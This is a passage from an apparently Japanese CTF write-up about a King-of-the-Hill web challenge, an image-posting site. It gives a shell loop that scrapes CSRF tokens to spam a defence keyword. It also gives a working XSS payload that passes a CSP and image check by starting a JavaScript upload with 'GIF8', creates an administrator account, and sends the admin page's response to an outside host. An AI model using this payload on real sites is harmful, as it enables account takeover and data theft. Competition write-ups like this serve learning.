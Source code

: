 画像投稿サイト。Web問。

### Defence

まず、ディフェンスキーワードは最もFav数の多いベージのコメント欄なので、
もっともFav数の多いページにキーワードを書き込み続けるだけでした。

どのページが最もFav数が多いかを追いかけるのが面倒そうだなぁと感じていたんですが、
そもそもFav数を増やして対象ページをコロコロ変えるような戦略を取るチームがいなかったようで、
それほど頻繁には変わっていませんでした。
登録時にしばしば429エラーが出ていたので、アカウント量産するのが難しかったのかな？

```sh
while true
do
	export CONTENT=44b106151c01d64e0c479eb43ef12a48
	curl http://umeda.koth.seccon/photos/1 -H "Cookie: PHPSESSID=5d7ef56d0cab6e12ec27e431c004e569" > cache
	export NAME=$(cat cache | sed -E 's/.+"csrf_name" value="([^"]+)".+/\1/')
	export VALUE=$(cat cache | sed -E 's/.+"csrf_value" value="([^"]+)".+/\1/')
	curl http://umeda.koth.seccon/photos/1/comment -X POST -H "Cookie: PHPSESSID=5d7ef56d0cab6e12ec27e431c004e569" -d csrf_name=$NAME -d csrf_value=$VALUE -d content=$CONTENT
done
```

### Attack

1つ目のFLAGは、普通に`ID:1`の画像ページに書いてあった。

不適切な画像(?)を管理者に報告するフォームでXSSができるようでした。
ただし、`Content-Security-Policy: script-src 'self'`ヘッダがついているので、
画像アップロード機能を悪用して、同一オリジンに悪意のあるスクリプトを設置する必要があります。

こんな感じに、`GIF8`がファイル先頭にあれば、画像ファイルかどうかのチェックをすり抜けられます。

```js
GIF8=8;

fetch("/admin/users", {credentials: 'include'})
.then(r => r.text())
.then(r => {
	const [,v] = r.match(/name="csrf_value" value="(.+?)"/);
	const [,n] = r.match(/name="csrf_name" value="(.+?)"/);
	const body = `csrf_value=${v}&csrf_name=${n}&name=azon`;
	return fetch("/admin/new-admin", {
		body,
		method: "POST",
		headers: {
			'Content-Type': 'application/x-www-form-urlencoded',
		},
		credentials: 'include',
	});
})
.then(r => r.text())
.then(r => fetch("http://192.168.14.4:8000/users", {method: "POST", body: r}))
```
